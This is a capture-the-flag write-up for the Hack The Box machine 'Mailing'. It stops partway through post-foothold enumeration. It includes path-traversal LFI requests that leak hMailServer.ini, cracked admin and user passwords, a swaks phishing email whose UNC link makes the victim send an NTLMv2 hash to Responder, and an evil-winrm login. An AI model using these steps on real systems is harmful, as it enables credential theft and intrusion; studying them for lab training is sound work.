





## Summary

The box starts with a website running on port `80/TCP`. On the website you can find a hint about the email server application `hMailServer` which is running on the box and also a button for downloading a `instructions.pdf` which describes on how to configure various `email clients` to communicate with the server. The file also leaks the `email address schema` and a valid `email address`. By having a closer look at the link a `Local File Inclusion (LFI)` vulnerability can be found. By doing some research you eventually find information on how `hMailServer` get's configured on a Windows operating system and for which path you have to look for to `dump` the `hMailServer.ini` file which contains a `hashed password` of the `hMailServer Administrator`. The hash can easily be cracked or looked up by using `https://crackstation.net`. As next step the `credentials` are used to `authenticate` against the server and send a `phishing email` to `Maya Bendito`. Her `hash` can be grabbed by using `Responder`. After cracking the hash the `user.txt` can be obtained. Doing `enumeration` shows a suspicious directory called `Important Documents` located directly on `C:\`. Furthermore `LibreOffice` can be discovered while checking installed applications on the box. By having a look at the `scheduled tasks` you can find a `task` running as the user `localadmin`. Using the information about `LibreOffice 7.4` points to `CVE-2023-2255` which is `Unauthorized Access to External Links in LibreOffice Editor Components`. This enables you to put the user `maya` into the `local administrators group` and to root the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
  - [Port Scanning](#Port-Scanning)
  - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Local File Inclusion (LFI)](#Local-File-Inclusion-LFI)
- [Cracking the Hash](#Cracking-the-Hash)
- [Foothold](#Foothold)
  - [Phishing Maya](#Phishing-Maya)
  - [Cracking Hash for Maya](#Cracking-Hash-for-Maya)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
  - [CVE-2023-2255: Unauthorized Access to External Links in LibreOffice Editor Components](#CVE-2023-2255-Unauthorized-Access-to-External-Links-in-LibreOffice-Editor-Components)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

We started with various `port scans` to make sure we didn't missed something relevant.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.17.163
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 05:42 EDT
Nmap scan report for 10.129.17.163
Host is up (0.013s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://mailing.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: completed NAMESPACE IDLE CAPABILITY QUOTA OK RIGHTS=texkA0001 IMAP4rev1 IMAP4 ACL CHILDREN SORT
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp open  ssl/imap      hMailServer imapd
|_imap-capabilities: completed NAMESPACE IDLE CAPABILITY QUOTA OK RIGHTS=texkA0001 IMAP4rev1 IMAP4 ACL CHILDREN SORT
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-05T09:43:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.26 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.17.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 05:54 EDT
Nmap scan report for mailing.htb (10.129.17.163)
Host is up (0.013s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Mailing
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: SORT QUOTA CHILDREN IDLE OK IMAP4 CAPABILITY RIGHTS=texkA0001 IMAP4rev1 completed NAMESPACE ACL
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
587/tcp   open  smtp          hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap      hMailServer imapd
|_imap-capabilities: SORT QUOTA CHILDREN IDLE OK IMAP4 CAPABILITY RIGHTS=texkA0001 IMAP4rev1 completed NAMESPACE ACL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
61071/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-05T09:58:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 329.40 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.17.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 06:01 EDT
Nmap scan report for mailing.htb (10.129.17.163)
Host is up (0.013s latency).
All 1000 scanned ports on mailing.htb (10.129.17.163) are in ignored states.
Not shown: 1000 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5100.32 seconds
```

### Enumeration of Port 80/TCP

- [http://10.129.17.163/](http://10.129.17.163/)

We got redirected and added `mailing.htb` to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.17.163   mailing.htb
```

- [http://mailing.htb](http://mailing.htb)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://mailing.htb/
http://mailing.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.17.163], Microsoft-IIS[10.0], PHP[8.3.3,], Title[Mailing], X-Powered-By[PHP/8.3.3, ASP.NET]
```

The main website held some interesting information like the `email server application` called `hMailServer` and also an option to download a `Instructions.pdf`.



- [https://www.hmailserver.com/](https://www.hmailserver.com/)

Having a closer look on the `URL` behind the `download button` shows a potential `Local File Inclusion (LFI)` vulnerability.

- 

```c
http://mailing.htb/download.php?file=instructions.pdf
```

## Local File Inclusion (LFI)

We verified that by accessing the `hosts` file.

#### Modified Request

```c
GET /download.php?file=..\\..\\Windows\\System32\\drivers\\etc\\hosts HTTP/1.1
Host: mailing.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

#### Response

```c
HTTP/1.1 200 OK
Cache-Control: must-revalidate
Pragma: public
Content-Type: application/octet-stream
Expires: 0
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/8.3.3
Content-Description: File Transfer
Content-Disposition: attachment; filename="hosts"
X-Powered-By: ASP.NET
Date: Sun, 05 May 2024 10:11:23 GMT
Connection: close
Content-Length: 849

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost

127.0.0.1	mailing.htb

```


After we did some research we found some information about the configuration of the application on a `Windows operating system`.

- [https://www.hmailserver.com/documentation/v5.4/?page=reference_inifilesettings](https://www.hmailserver.com/documentation/v5.4/?page=reference_inifilesettings)
- [https://www.andysblog.de/windows-hmailserver-auf-neuen-computer-migrieren](https://www.andysblog.de/windows-hmailserver-auf-neuen-computer-migrieren)

A `German` speaking blog pointed out a different directory called `Bin` while `migrating` to a new system.

```c
C:\Program Files (x86)\hMailServer\Bin
```

We tested this and accessed successfully the `hMailServer.ini` which contained the `hash` of the `administrative user` of the `hMailServer`application.

#### Modified Request

```c
GET /download.php?file=..\\..\\Program+Files+(x86)\\hMailServer\\bin\\hMailServer.ini HTTP/1.1
Host: mailing.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

#### Response

```c
HTTP/1.1 200 OK
Cache-Control: must-revalidate
Pragma: public
Content-Type: application/octet-stream
Expires: 0
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/8.3.3
Content-Description: File Transfer
Content-Disposition: attachment; filename="hMailServer.ini"
X-Powered-By: ASP.NET
Date: Sun, 05 May 2024 11:05:22 GMT
Connection: close
Content-Length: 604

[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1

```



| Hash                             |
| -------------------------------- |
| 841bb5acfa6779ae432fd7a4e6600ba7 |

## Cracking the Hash

The `hash` can be easly `cracked` or looked up on `crackstation.net`.

- [https://crackstation.net](https://crackstation.net)

- 

| Hash                             | Password                    |
| -------------------------------- | --------------------------- |
| 841bb5acfa6779ae432fd7a4e6600ba7 | homenetworkingadministrator |

## Foothold

### Phishing Maya

In the `Instructions.pdf` we found the `email address scheme` on the last page and also the `email address` of `Maya Bendito`.



From here several ways worked to deliver our `phishing payload` which we used to capture her `hash` with `Responder`. I approached it using `Swaks`.

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server mailing.htb --port 587 --auth-user "Administrator@mailing.htb" --auth-password "homenetworkingadministrator" --to "maya@mailing.htb" --from "Administrator@mailing.htb" --header "Subject: foobar" --body "\\\10.10.14.26\x"
```

I used the newly gathered `credentials` to `authenticate` against the server and send the `phishing email`.

```c
┌──(kali㉿kali)-[~]
└─$ swaks --server mailing.htb --port 587 --auth-user "Administrator@mailing.htb" --auth-password "homenetworkingadministrator" --to "maya@mailing.htb" --from "Administrator@mailing.htb" --header "Subject: foobar" --body "\\\10.10.14.26\x"
=== Trying mailing.htb:587...
=== Connected to mailing.htb.
<-  220 mailing.htb ESMTP
 -> EHLO kali
<-  250-mailing.htb
<-  250-SIZE 20480000
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> QWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
<-  334 UGFzc3dvcmQ6
 -> aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
<-  235 authenticated.
 -> MAIL FROM:<Administrator@mailing.htb>
<-  250 OK
 -> RCPT TO:<maya@mailing.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sun, 05 May 2024 07:39:31 -0400
 -> To: maya@mailing.htb
 -> From: Administrator@mailing.htb
 -> Subject: foobar
 -> Message-Id: <20240505073931.065624@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> \\10.10.14.26\x
 -> 
 -> 
 -> .
<-  250 Queued (13.063 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After a short time `Responder` captured the `hash`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.26]
    Responder IPv6             [dead:beef:2::1018]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-DZQ7GOCOUVI]
    Responder Domain Name      [7Z01.LOCAL]
    Responder DCE-RPC Port     [47754]

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.129.17.163
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:fa58a24ce59dce31:3213DF2358552E58141220640A8E041A:01010000000000000007115EBE9EDA01C2BC51FA9495649F000000000200080037005A003000310001001E00570049004E002D0044005A005100370047004F0043004F0055005600490004003400570049004E002D0044005A005100370047004F0043004F005500560049002E0037005A00300031002E004C004F00430041004C000300140037005A00300031002E004C004F00430041004C000500140037005A00300031002E004C004F00430041004C00070008000007115EBE9EDA01060004000200000008003000300000000000000000000000002000004BDE748728964BEB30B5D8B8191CE85601059CF7E9B1CD75F72A2BFB2779C5020A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320036000000000000000000                                                                                                                                                                                                                                
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
```

### Cracking Hash for Maya

Cracking her hash was business as usual.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mailing/files]
└─$ cat hash
maya::MAILING:fa58a24ce59dce31:3213DF2358552E58141220640A8E041A:01010000000000000007115EBE9EDA01C2BC51FA9495649F000000000200080037005A003000310001001E00570049004E002D0044005A005100370047004F0043004F0055005600490004003400570049004E002D0044005A005100370047004F0043004F005500560049002E0037005A00300031002E004C004F00430041004C000300140037005A00300031002E004C004F00430041004C000500140037005A00300031002E004C004F00430041004C00070008000007115EBE9EDA01060004000200000008003000300000000000000000000000002000004BDE748728964BEB30B5D8B8191CE85601059CF7E9B1CD75F72A2BFB2779C5020A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320036000000000000000000
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mailing/files]
└─$ sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m4y4ngs4ri       (maya)     
1g 0:00:00:03 DONE (2024-05-05 07:43) 0.3205g/s 1901Kp/s 1901Kc/s 1901KC/s m61405..m4895621
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

| Password   |
| ---------- |
| m4y4ngs4ri |

Using her `credentials` made us able to login via `WinRM` using `Evil-WinRM` and grabbing the `user.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i mailing.htb -u maya -p "m4y4ngs4ri"    
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\maya\Desktop> type user.txt
e89aca18223f914b086c184154d36635
```

## Enumeration

We started with some basic enumeration as always.

```c
*Evil-WinRM* PS C:\Users\maya\Desktop> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
mailing\maya S-1-5-21-3356585197-584674788-3201212231-1002


GROUP INFORMATION
-----------------

Group Name                                   Type             SID          Attributes
============================================ ================ ============ ==================================================
Todos                                        Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Usuarios                             Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Usuarios de escritorio remoto        Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Usuarios autentificados         Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Esta compa¤¡a                   Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Cuenta local                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Autenticaci¢n NTLM              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Etiqueta obligatoria\Nivel obligatorio medio Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                  State
============================= ============================================ =======
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Enabled
SeUndockPrivilege             Quitar equipo de la estaci¢n de acoplamiento Enabled
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Enabled
SeTimeZonePrivilege           Cambiar la zona horaria                      Enabled
```

We found a suspicious folder called `Important Documents` directly on in the `root directory` which didn't contain any files.

```c
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/10/2024   5:32 PM                Important Documents
d-----         2/28/2024   8:49 PM                inetpub
d-----         12/7/2019  10:14 AM                PerfLogs
d-----          3/9/2024   1:47 PM                PHP
d-r---         3/13/2024   4:49 PM                Program Files
d-r---         3/14/2024   3:24 PM                Program Files (x86)
d-r---          3/3/2024   4:19 PM                Users
d-----         4/29/2024   6:58 PM                Windows
d-----         4/12/2024   5:54 AM                wwwroot
```

```c
*Evil-WinRM* PS C:\Important Documents> cmd /c dir /A 
 Volume in drive C has no label.
